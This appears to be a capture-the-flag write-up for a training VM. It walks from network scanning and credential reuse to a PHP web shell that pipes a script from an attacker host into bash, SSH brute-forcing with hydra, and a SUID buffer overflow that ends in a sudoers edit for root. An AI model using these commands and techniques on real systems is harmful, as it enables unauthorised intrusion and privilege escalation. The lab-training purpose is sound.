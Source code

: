 *INFO GATHERING*

As the network config changes depending on the virtualization system used, we start by getting our IP address and scanning the network

```ifconfig```

```nmap -T4 <Network>```

![](./img/01-ifconfig.png)
![](./img/02-nmap_network.png)

Thanks to the info obtained, we can test our connectivity to the system and know the target OS based on the TTL

```ping <TargetIP>```

![](./img/03-ping.png)

As the TTL is 64, we can assume that the server is running on Linux. We can proceed with the port scan

```nmap -sV -sC -p- -T4 <TargetIP>```

![](./img/04-nmap_target.png)

The interesting open ports found are 21-ftp, 22-ssh, 80-http, 143-imap, 443-https, 993-ssl/imap. After examination, nothing seemed vulnerable in the ftp, http and ssh services.


Inspecting the https service, we discovered three different directories

```dirb https://<TargetIP>```

![](./img/05-dirb.png)

The directories /phpmyadmin and /webmail need authentication, we'll thus focus on /forum

In the /forum webpage, we found a list of users as well as some posts. One of those contains a log report, posted by lmezard. Reading carefully, we encountered a logging attempt from a user called "!q\]Ej?*5K5cy*AJ"

![](./img/06-forum_post.png)

*EXPLOITATION*

We intuit that the username was in fact a password. As the next succesfull login was done by lmezard, we could login with these credentials.

Once logged in as lmezard, we got their email address by having a look at their profile page. We now have the user's email : laurie@borntosec.net

![](./img/07-forum_profile.png)

Using this email address and the previously obtained password, we successfully logged in the /webmail service. Checking the inbox, we encounter an exchange about access to the database, giving us the credentials for the user's database root.

![](./img/08-db_creds.png)

We can now authenticate in the /phpmyadmin service, gaining access to the DB. As the compromised user is root, it is likely that we have file permissions on the system. Therefore, we can try to gain access to the server by injecting PHP code to an accessible file by making use of a reverse shell.

![](./img/09-RCE.png)

```https://<TargetIP>/forum/templates_c/rce.php?cmd=curl <AttackerIP>:<HttpPort>/shell.sh | bash```


*POST EXPLOITATION*

After some basic local enumeration, we can get the following information:
- We are indeed in the target system, as the local IP is the same as the target IP
- The user running the web app is www-data
- The kernel version is Linux ? (Read writeup 2!)
- We have reading permissions over /home/LOOKATME/password

Reading the file reveals the system credentials for lmezard, although ssh connection is restricted for this user.

```cat /home/LOOKATME/password```

```ssh lmezard@<IP>```

```su lmezard```

![](./img/10-lmezard.png)

**fun**

In lmezard's home directory, we can find a compressed file called "fun" and a README. We download and decompress the file for further analysis.

```nc -nlv <port> > fun``` in attacker

```nc <IP> <port> < fun``` in target system

```tar -xvf ./fun```

The README suggests that solving the challenge will allow us access to the user laurie via SSH.

Analyzing fun, we get pieces of information to reconstruct the password. 

```cat ft_fun/* | grep printf | grep -v haha```

```cat ft_fun/* | grep getme -A 3 | grep -v haha```

```cat ft_fun/* | grep return | grep -v haha```

We deduce that the password lenght is 12, ending with "wnage" and that we need to hash the resulting string before attempting to log in, using SHA256. The characters left to order are "Iepthar".

In order to automate the login attempts, we employed our own password generation script, and hydra, to brute force the attempts. The script generates every possible permutation of the left characters, joins it to the known piece of password, and hashes the result.

```python3 laurie.py | awk '{print $5}' > laurie_passwd.txt```

```hydra -l laurie -P ./laurie_passwd.txt <TargetIP> ssh -v```

Hydra returns one successful login, using the string "Iheartpwnage", hashed.

**bomb**

The files present in laurie's home directory are a binary executable file called "bomb" and a README, explaining us how to log in as the user thor.

The bomb is a program composed of six levels, each one waiting for the user's input and, in case of error, exploding. The README helps us giving us some hints and stating that, by joining the inputs used to defuse each phase, we can obtain thor's password.

In order to understand how to solve each level, we decompiled the file using the online service "LINK".

***Phases***

- Phase 1 : compares the input with the string "Public speaking is very easy." -> input : "Public speaking is very easy."

- Phase 2 : takes 6 numbers as input, input[i + 1] = input[i] * (input[i] + 1), with 1 as input[0] -> input : "1 2 6 24 120 720"

- Phase 3 : takes a combination of one number, one char and another number. 7 combinations work, but thanks to the hints, we can keep only 3 of them : "1 b 214 / 2 b 755 / 7 b 524" -> input : "1 b 214"

- Phase 4 : one number expected, > 0. Brute forcing it, we got "9"

- Phase 5 : receives a string, applies an algorithm on every character. The result should be equal to "giants". Testing every letter, we got -> input : "opekmq" (or opekma)

- Phase 6 : receives 6 numbers. Each one should be between 0 and 6, and 2 consecutive numbers can't be equal. Knowing that, we could brute force the password -> input : "4 2 6 3 1 5"

- Secret phase : can be accessed by adding "austinpowers" to the fourth input -> "9 austinpowers". Receives a number > 0 and <= 1001. By brute force (again) -> input : "1001" (Turned out to be useless)

The subject hints that we have to swap the second-to-last and third-to-last characters to form the right password.

- Final password for thor: Publicspeakingisveryeasy.126241207201b2149opekmq426135

**turtle**

The README file present in thor's home directory tells us to use the result of the challenge "turtle" as password for "zaz".
In "turtle" we find instructions in French seeming to describe a path. Drawing it on paper, we end up writting "SLASH".
We have to "digest" the password to use it. We therefore apply md5 (message digest) on "SLASH".

```echo -n "SLASH" | md5sum```

**buffer overflow**

The directory /home/zaz contains an interesting file, a SUID binary that belongs to root.

```./exploit_me Hello``` (command output)

```strings ./exploit_me```

The program prints the argument received. Exploring the readable content of the file reveals the use of the insecure function strcpy. Assuming a buffer being used, we can try to perform a buffer overflow in order to gain root access by executing a shellcode.

The file decompilation supports our idea. The program uses a buffer of 140 bytes.

1. Localize the buffer address to overwrite the Extended Instruction Pointer (EIP)
2. Fill the buffer with a NOP sled, allowing imprecisions. This will ensure the execution of the payload
3. Concatenate the shellcode, executing /bin/sh
4. Smash EIP with the buffer memory address obtained in step one. This directs the execution flow to the NOP sled

We coded a python script to generate the final payload.

```./exploit_me $(python payload.py)```

```echo 'zaz ALL=NOPASSWD: ALL' >> /etc/sudoers && sudo su```

```id```

![](./img/11-root.png)
